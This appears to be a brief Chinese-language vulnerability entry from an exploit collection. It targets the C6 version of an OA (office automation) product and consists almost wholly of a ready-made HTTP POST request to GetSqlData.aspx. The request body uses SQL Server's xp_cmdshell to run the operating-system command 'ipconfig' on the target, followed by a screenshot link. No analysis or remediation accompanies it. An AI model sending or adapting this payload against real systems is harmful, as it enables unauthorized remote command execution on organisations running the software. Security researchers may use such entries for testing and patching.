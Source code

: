 ## 某和OA C6-GetSqlData.aspx SQL注入漏洞
```
POST /C6/Control/GetSqlData.aspx/.ashx HTTP/1.1
Host: ip:port 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Content-Length: 189
Content-Type: text/plain
Accept-Encoding: gzip

exec master..xp_cmdshell 'ipconfig'
```

![image-20241231151107209](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412311511460.png)
